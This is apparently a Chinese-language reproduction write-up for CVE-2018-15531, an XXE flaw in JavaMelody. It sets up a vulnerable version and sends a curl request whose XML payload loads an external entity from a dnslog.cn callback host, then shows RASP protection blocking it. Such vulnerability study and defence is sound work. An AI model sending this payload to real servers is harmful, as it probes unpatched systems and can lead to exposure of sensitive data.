







# CVE-2018-15531

## 漏洞简介

JavaMelody是一款在生产和QA环境中对JAVA应用以及应用服务器(Tomcat、Jboss、Weblogic)进行监控的工具，可以通过图表给出监控数据，方便研发运维等找出响应瓶颈、优化响应等。
在 1.74.0版本，修复了一个XXE漏洞，漏洞编号CVE-2018-15531。攻击者利用漏洞，可以读取JavaMelody服务器上的敏感信息。

## 影响版本

版本 < 1.74.0

## 修复代码

[修复commit](https://github.com/javamelody/javamelody/commit/ef111822562d0b9365bd3e671a75b65bd0613353)



## 环境准备

###  springboot 接入 javamelody 

+ 添加依赖
```xml
<dependency>
    <groupId>net.bull.javamelody</groupId>
    <artifactId>javamelody-spring-boot-starter</artifactId>
    <version>1.73.1</version>
</dependency>                        
```
+ 查看是否启动
http://localhost:8080/monitoring



### dnslog 

[申请一个dns域名](http://www.dnslog.cn)  x9m8kb.dnslog.cn

postman 发送请求


或者 curl 发送请求
```shell
curl --location --request POST 'http://localhost:8080' \
--header 'Content-type: text/xml' \
--header 'SOAPAction: aaaaa' \
--data-raw '<?xml version="1.0" encoding="UTF-8" standalone="no" ?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://www.x9m8kb.dnslog.cn">
%remote;
]>
</root>'
```

### 观察结果



## RASP防护

+ RASP 关键代码




+ 开起 RASP 再次发起请求



没有请求外部实体，攻击被阻断




